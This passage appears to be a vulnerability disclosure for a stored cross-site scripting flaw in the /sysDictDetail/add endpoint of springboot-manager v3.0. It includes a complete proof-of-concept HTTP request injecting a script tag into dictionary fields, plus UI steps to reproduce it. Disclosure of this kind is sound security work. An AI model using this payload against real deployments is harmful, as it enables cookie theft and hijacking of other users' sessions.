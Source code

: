 ### 1.6 `/sysDictDetail/add` Stored cross-site scripting

[Affected version]

v3.0



[Affected Component]

/sysDictDetail/add



[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0



[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sysDictDetail/add` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sysDictDetail/add HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 122
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/sysDict
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

{"id":"","dictId":"1255790029680242691","value":"<script>alert(1)</script>","label":"<script>alert(1)</script>","sort":""}
```

System Management -> Dictionary Management -> Select a dictionary on the left, click add on the right, inject payload into the dictionary value and dictionary label, \<script>alert(1)\</script>

![image-20250228221529540](assets/image-20250228221529540.png)
